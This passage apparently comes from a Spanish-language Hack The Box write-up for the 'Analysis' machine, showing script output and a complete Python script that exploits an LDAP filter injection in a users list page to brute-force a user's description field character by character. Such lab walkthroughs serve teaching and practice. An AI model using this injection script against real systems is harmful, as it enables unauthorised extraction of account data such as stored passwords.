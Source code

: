 Vemos que el usuario `technician` es el único que tiene descripción.
```shell
$ python3 description.py 
[↓] Usuario ->: technician
[ ] Probando carácter ->: ;
[.\......] Probando carácter ->: ;
[0] Probando carácter ->: ;
[◣] Probando carácter ->: ;
[◑] Probando carácter ->: ;
[+] Probando carácter ->: El usuario technician tiene descripción
```

Ahora este es el script para bruteforcear la descripción.

```python
#!/usr/bin/python3
import requests
from pwn import *
import string

URL = "http://internal.analysis.htb/users/list.php?name=<USER>)(description=<DESC>"
DEFAULT_LEN = 406
alphabet = string.ascii_letters + string.digits + "_@{}-/!\"$%=^[]:;"

def brute(user, known_prefix=""):
    forged_url = URL.replace("<USER>", user)
    description = known_prefix

    p = log.progress("Probando carácter ->")
    while True:
        found_char = False

        for char in alphabet:
            p.status(description+char)
            r = requests.get(forged_url.replace("<DESC>", description + char + "*"))
            if len(r.text) != DEFAULT_LEN:
                description += char
                found_char = True
                break  # Salir del bucle interno

        if not found_char:
            p.success(f"Descripción final descubierta: {description}")
            break  # Salir del bucle externo

def desc():
    p = log.progress("Usuario ->")
    username = "technician"
    p.status(username)
    brute(username)

if __name__ == "__main__":
    desc()
```
